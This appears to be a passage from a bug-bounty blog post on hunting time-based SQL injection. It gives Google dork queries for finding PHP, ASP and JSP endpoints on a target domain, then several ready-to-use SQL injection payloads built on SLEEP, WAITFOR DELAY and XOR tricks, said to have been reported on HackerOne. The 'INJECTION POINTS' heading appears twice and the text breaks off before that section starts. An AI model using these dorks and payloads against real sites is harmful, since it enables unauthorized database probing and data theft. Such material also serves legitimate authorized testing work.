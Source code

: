 ![](https://miro.medium.com/v2/resize:fit:700/1*nyaTWaxdUwhbXpUIKEXMYw.png)

Or directly hit the endpoint:

```js
site:domain.com ext:.php  
site:domain.com ext:.asp  
site:domain.com ext:.aspx  
site:domain.com ext:.do  
site:domain.com ext:.cgi  
site:domain.com ext:.action  
site:domain.com ext:.jsp
```

Now we need to find subdomains / endpoints where it is running on old technology like PHP , ASP, ASPX, which increases the probability that it is associated with traditional DBMS.

Below are the list of payloads specifically for time based sqli testing which are valid and reported on HackerOne using this:

```sql
0'XOR(if(now()=sysdate()%2Csleep(20)%2C0))XOR'Z  
  
0'XOR(if(now()=sysdate(),sleep(20),0))XOR'Z  
  
if(now()=sysdate(),sleep(20),0)/*'XOR(if(now()=sysdate(),sleep(20),0))OR'"XOR(if(now()=sysdate(),sleep(20),0))OR"*/  
  
1234 AND SLEEP(20)  
  
';WAITFOR DELAY '00:00:05';--
```

```sql
(select(0)from(select(sleep(6)))v)/*'+  
(select(0)from(select(sleep(6)))v)+'"+  
(select(0)from(select(sleep(6)))v)+"*/

```

If the parameter value is a number

```sql
paramname=1'-IF(1=1,SLEEP(20),0) AND paramname='1
```

# INJECTION POINTS 😈

Now where do we inject guys?

💉 = insert the payload here:

# INJECTION POINTS 😈

Now where do we inject guys?
